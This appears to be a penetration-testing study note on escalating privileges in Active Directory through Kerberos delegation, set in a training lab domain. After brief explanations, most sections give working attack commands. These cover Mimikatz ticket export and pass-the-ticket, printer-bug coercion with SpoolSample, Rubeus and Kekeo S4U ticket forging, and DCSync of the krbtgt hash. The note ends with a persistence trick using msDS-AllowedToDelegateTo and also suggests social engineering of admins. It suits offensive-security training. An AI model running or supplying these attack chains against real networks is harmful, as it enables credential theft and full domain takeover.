






# Domain Privilege Escalation - Delegations

- [Domain Privilege Escalation - Delegations](#domain-privilege-escalation---delegations)
  - [Kerberos Delegation](#kerberos-delegation)
  - [Unconstrained Delegation](#unconstrained-delegation)
  - [Leveraging Unconstrained Delegation](#leveraging-unconstrained-delegation)
  - [Unconstrained Delegation & Printer Bug](#unconstrained-delegation--printer-bug)
  - [Constrained Delegation](#constrained-delegation)
  - [Leveraging Constrained Delegation](#leveraging-constrained-delegation)
  - [Persistence using msDS-AllowedToDelegateTo](#persistence-using-msds-allowedtodelegateto)

----

## Kerberos Delegation

Kerberos Delegation allows to "*reuse the end-user credentials to access resources hosted on a different server*". This is typically useful in multi-tier service or applications where Kerberos Double Hop is required.

For example, a user authenticates to a web server and web server makes requests to a database server. The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user (impersonation) and not as the web server's service account.

Please note that, for the above example, **the service account for web service must be trusted for delegation** to be able to make requests as a user.

There are two types of Kerberos Delegation:

1. **General/Basic** or **Unconstrained Delegation** which allows the first hop server (web server in our example) to **request access to any service on any computer in the domain**.<br/>
2. **Constrained Delegation** which allows the first hop server (web server in our example) to request access **only to specified services on specified computers**.

<br/>

## Unconstrained Delegation

  

1. A user provides credentials to the Domain Controller. 
2. The DC returns a TGT. 
3. The user requests a TGS for the web service on Web Server.
4. The DC provides a TGS. 
5. The user sends the TGT and TGS to the web server. 
6. The web server service account use the user's TGT to request a TGS for the database server from the DC.
7. The web server service account connects to the database server as the user.

<br/>

When unconstrained delegation is enabled, **the DC places user's TGT inside TGS** (Step 4 in the previous diagram). 

When presented to the server with unconstrained delegation, **the TGT is extracted from TGS and stored in LSASS**. This way the server can reuse the user's TGT to access any other resource as the user.

This could be used to escalate privileges in case **we can compromise the computer with unconstrained delegation and a Domain Admin connects to that machine**.

<br/>

  

<br/>

## Leveraging Unconstrained Delegation

Discover domain computers which have unconstrained delegation enabled.

- PowerView

```
Get-DomainComputer -UnConstrained
```

- AD Module

```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

```
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

<br/>

Compromise the server(s) where Unconstrained delegation is enabled. We must **`trick`** a domain admin or other high privilege user to connect to a service on us-web.

After the connection, we can export TGTs using the below command:

```
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```

The ticket could be reused:

```
Invoke-Mimikatz –Command '"kerberos::ptt ticket.kirbi"'
```

<br/>

How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Social Engineering way!

  

<br/>

## Unconstrained Delegation & Printer Bug

  

How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Printer Bug!

A feature of **MS-RPRN** which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.

Abusing Printer Bug (yes the attacker is wearing a Balaclava :P)

  

<br/>

Let's use **MS-RPRN.exe** (https://github.com/leechristensen/SpoolSample) on `usweb`:

```
.\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
```

<br/>

We can capture the TGT of `us-dc$` by using `Rubeus` (https://github.com/GhostPack/Rubeus) on `us-web`:

```
.\Rubeus.exe monitor /target:US-DC$ /interval:5 /nowrap
```

<br/>

Copy the base64 encoded TGT, remove extra spaces and use it on the attacker' machine:

```
.\Rubeus.exe ptt /ticket:<base64-string>
```

Or you can use `Invoke-Mimikatz`:

```
[IO.File]::WriteAllBytes("C:\AD\Tools\USDC.kirbi", [Convert]::FromBase64String("<base64_string_from_Rubeus_monitor>"))

Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'
```

<br/>

Then run DCSync:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

<br/>

## Constrained Delegation

**Constrained Delegation** allows access only to **specified services** on **specified computers as a user**. 

To impersonate the user, Service for User (S4U) extension is used which provides two extensions:

1. **Service for User to Proxy (S4U2proxy)**: Allows a service to obtain a TGS to a second service (controlled by SPNs on `msDs-AllowedToDelegateTo`) on behalf of a user.
2. **Service for User to Self (S4U2self)**: Allows a service (must have `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION`) to obtain a forwardable TGS to itself on behalf of a user (no actual Kerberos authentication by user takes place). Used in Protocol Transition i.e. when user authenticates with non-Kerberos authentication.

<br/>

To abuse constrained delegation with protocol transition, we need to **compromise the web service (first hop) account**. If we have access to that account, it is possible to access the services listed in `msDSAllowedToDelegateTo` of the web service account as **ANY user**.

<br/>

## Leveraging Constrained Delegation

  

1. A user authenticates to the web service using a **non-Kerberos compatible** authentication mechanism.
2. The web service requests a ticket from the Key Distribution Center (KDC) for user's account without supplying a password, as the webservice account.
3. The KDC checks the webservice `userAccountControl` value for the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` attribute, and that user's account is not blocked for delegation. If OK it returns a forwardable ticket for user's account (`S4U2Self`).
4. The service then passes this ticket back to the KDC and requests a service ticket for the SQL Server service.
5. The KDC checks the `msDS-AllowedToDelegateTo` field on the web service account. If the service is listed it will return a service ticket for MSSQL (`S4U2Proxy`).
6. The web service can now authenticate to the sql server as the user using the supplied TGS.

<br/>

To enumerate computers / users with constrained delegation:

- PowerView

```
Get-DomainUser –TrustedToAuth
```

```
Get-DomainComputer -TrustedToAuth
```


- AD Module

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne
"$null"} -Properties msDS-AllowedToDelegateTo
```

<br/>

Using **Kekeo**, we request a TGT for the first hop service account (we can use a password or NTLM hash):

```
tgt::ask /user:appsvc /domain:us.techcorp.local /rc4:1D49D390AC01D568F0EE9BE82BB74D4C
```

<br/>

Another interesting issue in Kerberos is that the delegation occurs **not only for the specified service but for any service running under the same account**. There is no validation for the SPN specified. This is huge as it allows access to many interesting services when the delegation may be for a non-intrusive service!

<br/>

Using **Kekeo**, we request a TGS (steps 4 & 5):

```
tgs::s4u /tgt:TGT_appsvc@US.TECHCORP.LOCAL_krbtgt~us.techcorp.loc al@US.TECHCORP.LOCAL.kirbi /user:Administrator /service:CIFS/us-mssql.us.techcorp.local|HTTP/usmssql.us.techcorp.local
```

<br/>

In addition to the service specified in `msDs-AllowedToDelegateTo`, we also specify an alternate service which uses the same service account as the one speficied in `msDs-AllowedToDelegateTo`.

<br/>

Using **Mimikatz:**

```
Invoke-Mimikatz '"kerberos::ptt TGS_Administrator@US.TECHCORP.LOCAL_HTTP~usmssql.us.techcorp.local@US.TECHCORP.LOCAL_ALT.kirbi"'
```

Then try to remotely execute command on US-MSSQL:

```
Invoke-Command -ScriptBlock{whoami} -ComputerName usmssql.us.techcorp.local
```

<br/>

Alternatively, we can use **Rubeus.exe**:

```
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/usmssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```

```
winrs -r:us-mssql cmd.exe
```

<br/>

---

## Persistence using msDS-AllowedToDelegateTo

Note that the `msDS-AllowedToDelegateTo` is the user account flag which controls the services to which a user account has access to. This means, with enough privileges, **it is possible to access any service from a user** – a neat persistence trick.

Enough privileges = `SeEnableDelegationPrivilege` on the DC and full rights on the target user - default for Domain Admins and Enterprise Admins.

That is, we can force set '`Trusted to Authenticate for Delegation`' and `ms-DS-AllowedToDelegateTo` on a user (or create a new user - which is more noisy) and abuse it later.

<br/>

- PowerView

```
Get-DomainUser –TrustedToAuth
```

```
Set-DomainObject -Identity devuser -Set @{serviceprincipalname='dev/svc'}
```

```
Set-DomainObject -Identity devuser -Set @{"msds-allowedtodelegateto"="ldap/usdc.us.techcorp.local"}
```

```
Set-DomainObject -SamAccountName devuser1 -Xor @{"useraccountcontrol"="16777216"}
```

```
Get-DomainUser –TrustedToAuth
```

- AD Module

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDSAllowedToDelegateTo
```

```
Set-ADUser -Identity devuser -ServicePrincipalNames @{Add='dev/svc'}
```

```
Set-ADUser -Identity devuser -Add @{'msDS-AllowedToDelegateTo'= @('ldap/usdc','ldap/us-dc.us.techcorp.local')} -Verbose
```

```
Set-ADAccountControl -Identity devuser -TrustedToAuthForDelegation $true
```

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDSAllowedToDelegateTo
```

<br/>

To abuse, use **Kekeo**:

```
tgt::ask /user:devuser /domain:us.techcorp.local /password:Password@123!
```

```
tgs::s4u /tgt:TGT_devuser@us.techcorp.local_krbtgt~us.techcorp.local@us.techc orp.local.kirbi /user:Administrator@us.techcorp.local /service:ldap/us-dc.us.techcorp.local
```

<br/>

Then use **Mimikatz** to ptt:

```
Invoke-Mimikatz -Command '"kerberos::ptt
TGS_Administrator@us.techcorp.local@us.techcorp.local_ldap~usdc.us.techcorp.local@us.techcorp.local.kirbi"'
```

<br/>

Perform DCSync:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

<br/>

Alternatively, we can use **Rubeus**:

```
Rubeus.exe hash /password:Password@123! /user:devuser /domain:us.techcorp.local
```

```
Rubeus.exe s4u /user:devuser /rc4:539259E25A0361EC4A227DD9894719F6 /impersonateuser:administrator /msdsspn:ldap/us-dc.us.techcorp.local /domain:us.techcorp.local /ptt
```

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

<br/>

